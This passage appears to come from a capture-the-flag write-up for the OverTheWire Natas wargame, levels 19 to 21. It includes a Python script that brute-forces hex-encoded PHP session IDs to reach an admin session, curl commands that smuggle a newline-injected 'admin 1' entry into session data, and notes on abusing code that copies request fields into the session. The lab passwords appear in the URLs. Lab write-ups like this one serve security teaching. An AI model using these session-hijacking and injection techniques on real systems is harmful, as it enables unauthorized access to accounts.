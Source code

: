 We can easily generate a bunch of these though.

```
import requests

url = "http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org/"

for n in range(1000):
    my_string = str(n)+"-admin"
    payload = "".join(["{:02X}".format(ord(x)) for x in my_string]).lower()
    cookie = {"PHPSESSID": str(payload)}
    post_data = {'username':'admin', 'password':'admin'}

    r = requests.post(url, data=post_data, cookies=cookie)

    if "You are an admin" in r.text:
        print r.text
        break
```



## Level 20

This one needs a proper write up. 

```
curl "http://natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF@natas20.natas.labs.overthewire.org?name=admin%0Aadmin%201" --cookie "PHPSESSID=hackingthings"
```


```
curl "http://natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF@natas20.natas.labs.overthewire.org" --cookie "PHPSESSID=hackingthings"
```

Something about writing the session token (not good enough!)



## Level 21

This challenge takes place over two pages, which is a new one for this series, everything else has been on a single page so far. The first page simply contains a link to the "CSS Experimenter", which allows us to make POST requests with parameters... :evilgrin:

Similar to the last one, we're going to abuse the following bit of code to drop our own session token, then attach to it. 

```
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
} 
```
